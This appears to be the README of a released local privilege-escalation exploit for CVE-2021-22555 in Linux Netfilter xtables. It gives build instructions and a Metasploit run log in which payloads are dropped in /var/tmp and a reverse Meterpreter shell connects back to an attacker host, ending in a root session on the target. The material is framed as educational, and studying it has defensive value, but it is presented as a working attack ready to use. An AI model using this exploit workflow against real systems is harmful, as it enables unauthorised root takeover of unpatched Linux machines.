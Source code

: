 # Netfilter_xtables_Heap_OOB_Write_Privilege_Escalation_CVE-2021-22555

LPE exploit for CVE-2021-22555. Tested on Ubuntu 20.04 kernel 5.8.0-48-generic.
The vulnerability was discovered by Andy Nguyen [@theflow0](https://twitter.com/theflow0).

Author: [Szymon Janusz](https://github.com/szymonj99)

For educational/research purposes only. Use at your own risk.

## Usage:

The exploit binary **must** be built on a Linux environment as it relies on Linux header files.

To build:
```
make ubuntu
```

To run:
```
msf exploit(linux/local/netfilter_xtables_heap_oob_write_priv_esc) > run

[*] Started reverse TCP handler on 192.168.1.145:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is running kernel release 5.8.0-48-generic.
[*] Dropping pre-compiled binaries to system...
[*] Writing '/var/tmp/flTJOaqhI' (734660 bytes) ...
[*] Uploading payload...
[*] Writing '/var/tmp/ckaFBkiL' (250 bytes) ...
[*] Running payload on remote system...
[*] Sending stage (3012548 bytes) to 192.168.1.67
[+] Deleted /var/tmp/flTJOaqhI
[+] Deleted /var/tmp/ckaFBkiL
[*] Meterpreter session 2 opened (192.168.1.145:4444 -> 192.168.1.67:43322) at 2021-09-28 14:20:41 +0100
[*] Payload executed!

meterpreter > getuid
Server username: root @ ubuntu-virtual-machine (uid=0, gid=0, euid=0, egid=0)
```

Checkout the writeup [CVE-2021-22555: Turning \x00\x00 into 10000$](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html).
